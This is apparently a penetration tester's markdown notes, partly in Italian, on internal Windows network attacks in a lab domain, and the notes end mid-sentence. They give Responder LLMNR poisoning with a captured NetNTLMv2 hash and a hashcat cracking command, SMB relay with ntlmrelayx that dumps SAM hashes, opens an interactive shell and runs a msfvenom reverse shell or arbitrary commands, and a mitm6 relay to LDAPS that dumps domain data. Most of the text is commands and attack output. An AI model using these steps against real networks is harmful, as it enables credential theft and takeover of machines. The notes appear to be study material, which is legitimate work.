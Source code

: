 # Internal

- [LLMNR](#llmnr)
- [SMB Relay Attack](#smb-relay-attack)
- [MITM6](#mitm6)

## LLMNR

LLMNR Poisoning (Link-Local Multicast Name Resolution) with Responder

Verifica PRIMA quali servizi potrebbero dare "problemi"

```
-r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
-d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
```

```
vi /etc/responder/Responder.conf

root@kali:/opt/impacket# grep -i http /etc/responder/Responder.conf
HTTP = Off
HTTPS = Off
```

example attack

```
root@junkie:/opt/Responder# python Responder.py -I enp0s9 -rdwv
```

and we grab hash

```
fcastle::MARVEL:e8c1a1f3953b8853:F72AE12A045EF2EC9054A63A8FFB9ECF:01010000000000007DE3B517AF92D601334C8CB4CB2CBFE70000000002000A005200440050003100320001000A005200440050003100320004000A005200440050003100320003000A005200500044003100320005000A00520044005000310032000800300030000000000000000100000000200000691A458F98BF1BCC5E6EC8364ACF3A37794FA39A18A3F435902A33D6E61BF7B60A0010000000000000000000000000000000000009002A005400450052004D005300520056002F003100390032002E003100360038002E00380038002E00310030000000000000000000

hashcat -m 5600 hashes.txt rockyou.txt
```

hashes are also stored in:

/usr/share/responder/logs
 

## SMB Relay Attack

requirements

- SMB signing must be disabled on target
- relayed user credentials must be admin on the target machine

to find vulnerable hosts:

```
nmap --script=smb2-security-mode -p445 192.168.1.0/24 --open
```

write IPs in text file.

we need to turn off smb and http on responder:

```
root@kali:~# egrep -i '(smb|http)' /etc/responder/Responder.conf
root@kali:~# egrep -i '(smb|http)' /etc/responder/Responder.conf
SMB = Off
HTTP = Off
HTTPS = Off
```

start responder

start ntlmrelayx

```
ntlmrelayx.py -tf targets.txt -smb2support
```

wait...

to "speed up" result, you can browse \IP_TARGET


```
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0e4275d7260558766159ed57c60d5354
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:08f94cb392028fe6240c50c314fb913c:::
Peter Parker:1002:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
```

to get a shell on target, we use -i parameter:

```
ntlmrelayx.py -tf targets.txt -smb2support -i
```

message will be:

```
[*] Servers started, waiting for connections
[*] Setting up HTTP Server
[*] SMBD-Thread-3: Connection from MARVEL/ADMINISTRATOR@192.168.88.3 controlled, attacking target smb://192.168.88.4
[*] Authenticating against smb://192.168.88.4 as MARVEL/ADMINISTRATOR SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-3: Connection from MARVEL/ADMINISTRATOR@192.168.88.3 controlled, but there are no more targets left!
[*] HTTPD: Received connection from 192.168.88.3, attacking target smb://192.168.88.4
[*] SMBD-Thread-6: Connection from MARVEL/ADMINISTRATOR@192.168.88.3 controlled, but there are no more targets left!
```

that means we got a shell on remote target, we can access with localhost and port 10000

```
root@kali:~# nc localhost 11000
Type help for list of commands
# help
```

to enumerate shares:

```
# shares
ADMIN$
C$
IPC$
Share
```

to access some share:

```
# use C$
# ls
drw-rw-rw-          0  Sat Jul 18 18:39:48 2020 $Recycle.Bin
drw-rw-rw-          0  Sat Jul 18 18:10:49 2020 $WinREAgent
drw-rw-rw-          0  Sat Jul 18 15:01:04 2020 Documents and Settings
-rw-rw-rw-       8192  Fri Sep 25 15:02:59 2020 DumpStack.log.tmp
-rw-rw-rw-  536870912  Fri Sep 25 15:02:59 2020 pagefile.sys
drw-rw-rw-          0  Sun Jul 19 00:53:11 2020 PerfLogs
drw-rw-rw-          0  Sat Jul 18 15:16:40 2020 Program Files
drw-rw-rw-          0  Sun Jul 19 00:53:11 2020 Program Files (x86)
drw-rw-rw-          0  Sat Jul 18 18:37:20 2020 ProgramData
drw-rw-rw-          0  Sat Jul 18 15:01:21 2020 Recovery
drw-rw-rw-          0  Sat Jul 18 18:35:26 2020 Share
-rw-rw-rw-  268435456  Fri Sep 25 15:02:59 2020 swapfile.sys
drw-rw-rw-          0  Sat Jul 18 15:01:47 2020 System Volume Information
drw-rw-rw-          0  Sat Jul 18 18:38:01 2020 Users
drw-rw-rw-          0  Mon Aug  3 11:55:23 2020 Windows
```

other hints:

```
ntlmrelayx.py -tf targets.txt -smb2support -e test.exe (dove test.exe è una reverse shell fatta con msfvenom)

ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

## MITM6

installation

```
root@kali:/opt/tools# git clone https://github.com/fox-it/mitm6.git
root@kali:/opt/tools/mitm6# pip3 install .


root@kali:/opt/tools/mitm6# mitm6 -d marvel.local
```

(.88.2 is the domain controller)

```
root@kali:/opt/tools/mitm6# ntlmrelayx.py -6 -t ldaps://192.168.88.2 -wh fakewpad.marvel.local -l lootme
Impacket v0.9.22.dev1+20200428.191254.96c7a512 - Copyright 2020 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
```

after rebooting a pc:

```
[*] Authenticating against ldaps://192.168.88.2 as MARVEL\fcastle SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from ::ffff:192.168.88.19, but there are no more targets left!
[*] Dumping domain info for first time
```

in /opt/tools/mitm6 folder we can find lots of information:

```
root@kali:/opt/tools/mitm6/lootme# ls -l
total 176
-rw-r--r-- 1 root root   844 Aug  2 15:57 domain_computers.grep
-rw-r--r-- 1 root root  1942 Aug  2 15:57 domain_computers.html
-rw-r--r-- 1 root root 11909 Aug  2 15:57 domain_computers.json
-rw-r--r-- 1 root root 10970 Aug  2 15:57 domain_groups.grep
-rw-r--r-- 1 root root 17114 Aug  2 15:57 domain_groups.html
-rw-r--r-- 1 root root 80259 Aug  2 15:57 domain_groups.json
-rw-r--r-- 1 root root  1154 Aug  2 15:57 domain_policy.html
-rw-r--r-- 1 root root  5323 Aug  2 15:57 domain_policy.json
-rw-r--r-- 1 root root  2333 Aug  2 15:57 domain_users.grep
-rw-r--r-- 1 root root  6520 Aug  2 15:57 domain_users.html
-rw-r--r-- 1 root root 17500 Aug  2 15:57 domain_users.json
```

when some admin log in, this script will run:


